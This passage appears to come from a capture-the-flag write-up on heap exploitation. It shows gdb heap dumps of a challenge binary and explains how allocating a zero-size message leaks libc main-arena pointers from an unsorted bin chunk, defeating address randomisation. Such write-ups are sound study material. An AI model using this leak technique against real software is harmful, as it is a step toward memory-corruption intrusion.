 ```
0x7fc1b98ce200:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce210:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce220:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce230:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce240:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce250:	0x0000000000000220	0x0000000000000030 <-- 2 info struct
0x7fc1b98ce260:	0x00007fc1b98ce290	0x00007fc1b98ce300
0x7fc1b98ce270:	0x000000000040093c	0x0000000000400887
```

`fd` and `bk` of an unsorted bin chunk point to someplace in main arena which is part of libc. If we leak these addresses, then we leak libc address itself (offsets are static). But what's more interesting, if we tear unsorted bin chunk in order to serve `malloc` using this unsorted bin chunk, main arena addresses will be placed in the newly allocated chunk in `fd` and `bk`. So, if we allocate a new message with size equal to 0, then we leak libc address. Look at the heap layout after calling `encrypt_message` with message size equal to 0.

```
0x7fc1b98ce000:	0x0000000000000000	0x0000000000000031 <-- 1 info struct
0x7fc1b98ce010:	0x00007fc1b98ce040	0x00007fc1b98ce060
0x7fc1b98ce020:	0x000000000040093c	0x0000000000400887
0x7fc1b98ce030:	0x0000000100000000	0x0000000000000021 <-- new msg_ptr of the 1 info struct
0x7fc1b98ce040:	0x00007fc1b9430d00	0x00007fc1b9430d88
0x7fc1b98ce050:	0x0000000000000000	0x0000000000000021 <-- new enc_msg of the 1 info struct
0x7fc1b98ce060:	0x00000fb1c9337d70	0x00007fc1b9430b78
0x7fc1b98ce070:	0x0000000000000000	0x00000000000001e1 <-- remaining of the unsorted bin chunk
0x7fc1b98ce080:	0x00007fc1b9430b78	0x00007fc1b9430b78
0x7fc1b98ce090:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0a0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0b0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0c0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0d0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0e0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce0f0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce100:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce110:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce120:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce130:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce140:	0x0000000000000110	0x0000000000000110
0x7fc1b98ce150:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce160:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce170:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce180:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce190:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1a0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1b0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1c0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1d0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1e0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce1f0:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce200:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce210:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce220:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce230:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce240:	0x0000000000000000	0x0000000000000000
0x7fc1b98ce250:	0x00000000000001e0	0x0000000000000030 <-- 2 info struct
0x7fc1b98ce260:	0x00007fc1b98ce290	0x00007fc1b98ce300
0x7fc1b98ce270:	0x000000000040093c	0x0000000000400887
```
